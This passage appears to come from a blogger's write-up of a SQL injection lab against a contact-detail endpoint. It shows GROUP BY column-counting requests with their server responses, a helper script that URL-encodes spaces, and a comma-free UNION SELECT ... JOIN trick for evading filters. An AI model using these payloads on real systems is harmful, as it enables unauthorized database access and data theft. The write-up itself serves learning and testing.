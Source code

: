 ...we can see that if I enter any commas, they will simply be read and split apart before they even make it to the SQL statement. This just won't do...so what can I do to determine the amount of columns? Well, I can put a pin in that notion of working around not using commas and attempt to use the `GROUP BY` statement to accomplish the same!

## Confirming the Columns used

First of all, I know that I can just review the database in question, since this is a `SELECT *` query I know that this returns all the columns as specified here:

```sql
CREATE TABLE `uniquecontact` (
  `id` int(50) NOT NULL AUTO_INCREMENT,
  `full_name` varchar(255) DEFAULT NULL,
  `email` varchar(255) DEFAULT NULL,
  `phone` varchar(50) DEFAULT NULL,
  `country` varchar(255) DEFAULT NULL,
  `date_created` datetime DEFAULT NULL,
  `date_update` datetime DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=33 DEFAULT CHARSET=latin1;
```

So, 7 columns. But if I don't have access to the database structure as I normally would in a black-box testing environment, I can determine the columns using this SQL Injection point:

```text
...
GET /detail/1,2%20group%20by%204-- HTTP/2 <-- 200 OK
GET /detail/1,2%20group%20by%205-- HTTP/2 <-- 200 OK
GET /detail/1,2%20group%20by%206-- HTTP/2 <-- 200 OK
GET /detail/1,2%20group%20by%207-- HTTP/2 <-- 200 OK
GET /detail/1,2%20group%20by%208-- HTTP/2 <-- 500 Internal Server Error
```

The Injection is `1,2 group by 7`, incrementing the last number up by one until it fails. The last successful query shows exactly how many columns are used to make that query. Knowing that, I can attempt a fancy little comma bypass to see if I can get a solid union injection working WITHOUT commas. It's possible, believe it or not! But until then...

I am going to use this fancy little python script I wrote to just take a sentence and replace spaces with `%20`s:

```python
#!/usr/bin/env python3

print("Enter a string you want me to format: ", end="")
sqli = input()
sqli = sqli.replace(" ", "%20")
print(sqli)
```

So great, I don't have to worry about replacing spaces with `%20`s. But what about commas? Well, first I tried to add the ordinal value of commas and hope the database would interpret it, but that would never work for some reason (using something like `chr(0x2c)` in place of commas), but I discovered a new `UNION` query that could perform the same thing with individual queries for each item! I can do something like
`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b...` and repeat this for every column I discovered, 7 in this case.
